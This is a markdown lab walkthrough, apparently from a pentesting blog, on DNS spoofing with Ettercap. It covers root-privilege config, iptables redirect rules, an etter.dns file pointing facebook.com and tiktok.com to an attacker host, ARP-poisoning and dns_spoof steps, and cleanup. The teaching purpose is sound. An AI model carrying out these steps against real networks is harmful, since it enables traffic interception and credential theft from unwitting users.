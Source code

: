 ```yaml
---
title: "DNS Spoofing"
published: 2025-10-26
description: "A practical lab walkthrough demonstrating DNS spoofing using Ettercap in a controlled environment."
image: "/assets/dns-spoofing/cover.jpg"
tags: [DNS Soopfing, Pentesting, Ettercap, MITM]
category: "Network Pentesting"
draft: false
lang: "en"
---
```


# What is DNS Soofing

**DNS Spoofing (also called DNS Cache Poisoning)** is a type of cyber attack where an attacker manipulates the Domain Name System (DNS) to redirect internet traffic.

Normally, when you type a website name like `facebook.com`, your computer asks a DNS server for the correct IP address. In DNS spoofing, the attacker sends a **fake DNS response**, making your computer believe that the malicious server’s IP is the real one.

As a result, you are unknowingly redirected to a **fake or malicious website** that might look like the real one — allowing the attacker to **steal personal information**, **install malware**, or **monitor your activity**.

# Ettercap DNS Spoofing — Setup Guide

## 1. Edit Ettercap configuration files

Open the main configuration and the DNS hosts file in a text editor:

```jsx
sudo nano /etc/ettercap/etter.conf
sudo nano /etc/ettercap/etter.dns
```

### Example `etter.conf` changes

Set privileges so Ettercap runs with the desired UID/GID (use with caution):

```
[privs]
ec_uid = 0    # root (default is usually nobody)
ec_gid = 0    # root group
```

Network redirect commands (examples—adjust to your environment):

```
# IPv4 redirect (example)
# redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
# redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

# IPv6 redirect 
redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
```

> Note: Keep commented lines as templates. Only enable the commands you require and understand.
>

## 2. Configure `etter.dns` (hosts mapping for dns_spoof)

`etter.dns` accepts entries in this form:

```
hostname [A|AAAA|PTR|MX|WINS|SRV|TXT] value [TTL]
```

**Example (use RFC 5737 / RFC 3330 test IPs or RFC1918 addresses to avoid interfering with real hosts):**

```
############################################################################
# ettercap -- etter.dns -- sample hosts file for dns_spoof plugin
# Educational example — use ONLY in an isolated lab or with permission.
############################################################################

#---------------------MAIN----------------------
# Basic A records (IPv4)
facebook.com         A    yourWebIp
tiktok.com           A    198.51.100.10
intranet.local       A    10.10.10.5
#-------------------------------------------

# Wildcard example (matches any subdomain)
*.example.lab        A    198.51.100.10

# PTR (reverse) records
host1.example.lab    PTR  10.0.0.10
printer.local        PTR  10.0.0.20  300

# MX, SRV, TXT examples
example-mail.com     MX   192.0.2.55
_ldap._tcp.example   SRV  10.0.0.40:389
example.com          TXT  "v=spf1 ip4:192.0.2.0/24 -all" 3600

############################################################################
```

`facebook.com` is a target domain and  `A → IP`is attacker set domain IP this redirect to the attacker website but URL is same.

## 3. Launch Ettercap GUI and perform the attack (lab only)

1. Start Ettercap in GUI mode:

    ```bash
    sudo ettercap -G
    ```

2. Select your network interface (e.g., `eth0` or `wlan0`).

![image.png](assets/dns-spoofing/image.png)

1. Start host scan → list connected hosts on the network.

    ![image.png](assets/dns-spoofing/image%201.png)

2. Set `Target 1` as the victim IP and `Target 2` as the gateway/router IP.

![image.png](assets/dns-spoofing/image%202.png)

1. Start MITM (ARP poisoning) attack to intercept traffic.

![image.png](assets/dns-spoofing/image%203.png)

![image.png](assets/dns-spoofing/image%204.png)

1. Enable the `dns_spoof` plugin from the *Plugins* menu.

![image.png](assets/dns-spoofing/image%205.png)

![image.png](assets/dns-spoofing/image%206.png)

1. Start the spoofing

![image.png](assets/dns-spoofing/image%207.png)

When the victim opens `tiktok.com` or `facebook.com`, the DNS query is poisoned and the browser is redirected to my host at **192.168.0.110** (my local machine), while the address bar continues to display the original domain name.

![image.png](assets/dns-spoofing/image%208.png)

## 4. Cleanup & Remediation

After testing, restore victim systems and network equipment:

- Stop Ettercap and all attacks.
- The site is now served over **HTTP** (TLS/SSL is missing), not HTTPS.

    ![image.png](assets/dns-spoofing/image%209.png)

- Flush DNS caches on affected hosts:
  - **Windows:**

    ```jsx
    ipconfig /flushdns
    ```

    ![image.png](assets/dns-spoofing/image%2010.png)

  - Linux (systemd-resolved):

    ```bash
    sudo systemd-resolve --flush-caches
    ```

  - macOS:

    ```bash
    sudo dscacheutil -flushcache; sudo killall -HUP mDNSResponder
    ```

- Restart network interfaces or reboot devices if necessary.
- Revert any firewall/iptables rules you temporarily applied.

# Summary

- Performed DNS spoofing with **Ettercap `dns_spoof`** in a lab.
- Mapped `facebook.com` / `tiktok.com` to **192.168.0.110** via `etter.dns`.
- Launched GUI (`sudo ettercap -G`), scanned hosts, set victim (Target 1) and gateway (Target 2).
- Executed **ARP MITM** and enabled `dns_spoof` to inject forged DNS replies.
- Victim traffic redirected to attacker host while **URL stayed the same**; **HTTPS dropped to HTTP** (certificate errors).
- Cleaned up: stopped Ettercap, flushed DNS caches, and reverted network changes.
